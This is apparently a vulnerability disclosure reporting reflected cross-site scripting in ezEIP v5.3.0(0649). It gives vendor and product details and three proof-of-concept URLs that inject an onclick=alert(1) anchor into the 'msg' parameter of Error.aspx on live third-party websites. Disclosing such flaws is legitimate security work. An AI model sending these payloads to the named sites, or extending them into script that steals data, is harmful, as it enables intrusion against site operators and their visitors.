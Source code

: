 ezEIP Cross-Site Scripting
> [Description]
</br>
> ezEIP v5.3.0(0649) was discovered to contain a cross-site scripting vulnerability.
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Vendor of Product]
</br>
> http://gzwhir.com/
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Affected Product Code Base]
</br>
> ezEIP - ezEIP v5.3.0(0649)
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Attack Type]
</br>
> Context-dependent
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Reference]
</br>
> https://github.com/God-Pattern/ezEIP/blob/main/XSS%20Vulnerability.md
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Examples]
</br>
> 
</br>
> Examples_1
</br>
> http://qiqi.gzwhir.com:805/whir_system/module/security/Error.aspx?msg=%3Ca%20onclick=alert(1)%3EXSS%3C/a%3E
</br>
> Examples_2
</br>
> http://en.mobi-antenna.com/whir_system/module/security/Error.aspx?msg=%3Ca%20onclick=alert(1)%3EXSS%3C/a%3E
</br>
> Examples_3
</br>
> http://www.szfaosc.com/whir_system/module/security/Error.aspx?msg=%3Ca%20onclick=alert(1)%3EXSS%3C/a%3E
</br>
>
</br>
> ------------------------------------------
</br>
>
